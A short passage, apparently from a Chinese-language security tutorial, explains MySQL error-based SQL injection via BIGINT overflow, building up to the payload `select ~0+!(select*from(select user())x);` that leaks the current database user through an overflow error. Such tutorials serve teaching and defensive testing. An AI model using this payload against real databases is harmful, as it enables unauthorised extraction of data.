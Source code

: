 因此我们只需要利用子查询引起BITINT溢出，从而设法提取数据。我们知道，如果一个查询成功返回，其返回值为`0`，所以对其进行逻辑非的话就会变成`1` 。

例如：

```text
select (select*from(select user())x);
```

![](../../../.gitbook/assets/tu-pian%20%2897%29.png)

```text
select !(select*from(select user())x);
```

![](../../../.gitbook/assets/tu-pian%20%28112%29.png)

由上我们就可以组合进行注入了：

```text
select ~0+!(select*from(select user())x);
```

![](../../../.gitbook/assets/tu-pian%20%2892%29.png)
